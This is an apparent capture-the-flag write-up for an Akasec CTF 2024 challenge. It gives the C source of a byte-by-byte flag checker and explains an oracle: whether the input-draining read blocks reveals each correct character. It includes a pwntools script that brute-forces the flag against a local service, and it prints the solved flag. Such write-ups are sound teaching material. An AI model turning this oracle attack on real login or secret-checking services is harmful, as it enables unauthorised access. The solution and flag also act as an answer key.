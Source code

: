 
# Description

![](./media/Screenshot%202024-06-10%20at%2016-05-16%20Akasec%20CTF%202024.png)

## ATTACHEMENT:
```c
#include <string.h>
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main(void)
{
	char input[1];
	char buffer[1024];
	int bytes;
	int correct = 1;
	
	const char *flag = getenv("FLAG");
	if (!flag) {
		flag = "AKASEC{this_is_just_a_fake_flag}";
	}

	fflush(stdin);
	fflush(stdout);
	write(1, "Can you guess the correct flag?\nFlag: ", 38);

	for (size_t i = 0; i < strlen(flag); i++) {
		bytes = read(0, input, 1);
		if (bytes == -1)
			return (perror("read"), 1);
		if (bytes == 0) // ctrl+d
			break;
		if (flag[i] != input[0]) {
			correct = 0;
			break;
		}
	}
	
	// reading rest of input
	while (input[0] != '\n' || bytes == 0) {
		bytes = read(0, buffer, 1024);
		if (bytes < 1024)
			break;
	}

	if (correct)
		printf("Access Granted\n");
	else
		printf("Access Denied\n");

	return 0;
```

this code read byte by byte from `stdin` and then compare each byte with the corresponding byte in `flag`, after that it clears the buffer and write `access Denied` or `access Granted` according to value of `correct`


# solution

the solution here is to brute force the flag byte by byte, to do this we can use the loop that clears the buffer to know if the character is correct or not, here's an example:

if we provide as input a character x followed by 1024 random (it shouldn't be part of the flag) bytes, the program will first read x then we have two possibilities here:
- x is correct then it'll move to the next byte (which should be incorrect) then exit form the loop, the size of the buffer will now be 1023 bytes so the loop that clears the buffer will finish after one read.
![](./media/Screen%20Shot%202024-06-10%20at%206.35.10%20PM.png)

- x is incorrect, the loop will exit and the size of the buffer will be 1024 bytes, so the loop that clears the buffer will block in the second read
![](./media/Screen%20Shot%202024-06-10%20at%206.37.28%20PM.png)

we can use this to brute force flag byte by byte!

```py
from pwn import *
import time

payload = list('.' * 1023)

printable = """0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!"#$%&\'()*+,-./:;<=>?@[\\]^_`{|}~ """

def remote_is_connected(p):
        recvd = p.recv(timeout=0.1)
        if len(recvd) == 0:
                return True
        else:
                return False

def solve():
        flag = ""
        keep = 1
        i = 0
        while keep:
                keep = 0
                payload.append(".")
                for letter in printable:
                        p = remote("localhost", 4448)
                        time.sleep(0.1)
                        p.recv()
                        payload[i] = letter
                        p.sendline("".join(payload).encode())
                        if not remote_is_connected(p):
                                keep = 1
                                print(letter)
                                flag += letter
                                break

                        p.close()
                i += 1
        return flag

if __name__ == "__main__":
        with context.quiet:
                res = solve()

        print("-------------")
        print(res)
```

Note: you may need to adjust `time.sleep` because of connection delay

flag: `AKASEC{why_d035_r34d_bl0ck_h3r3!!!}`
